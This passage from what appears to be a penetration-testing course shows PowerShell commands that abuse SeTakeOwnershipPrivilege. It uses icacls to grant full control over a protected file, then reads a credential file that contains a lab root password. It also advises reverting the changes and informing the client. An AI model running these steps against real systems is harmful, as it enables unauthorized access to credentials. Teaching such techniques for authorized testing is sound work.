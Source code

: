 #### Modifying the File ACL

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

SeTakeOwnershipPrivilege

```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Let's grant our user full privileges over the target file.

SeTakeOwnershipPrivilege

```powershell-session
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

#### Reading the File

If all went to plan, we can now read the target file from the command line, open it if we have RDP access, or copy it down to our attack system for additional processing (such as cracking the password for a KeePass database.

SeTakeOwnershipPrivilege

```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```

After performing these changes, we would want to make every effort to revert the permissions/file ownership. If we cannot for some reason, we should alert our client and carefully document the modifications in an appendix of our report deliverable. Again, leveraging this permission can be considered a destructive action and should be done with great care. Some clients may prefer that we document the ability to perform the action as evidence of a misconfiguration but not fully take advantage of the flaw due to the potential impact.

---

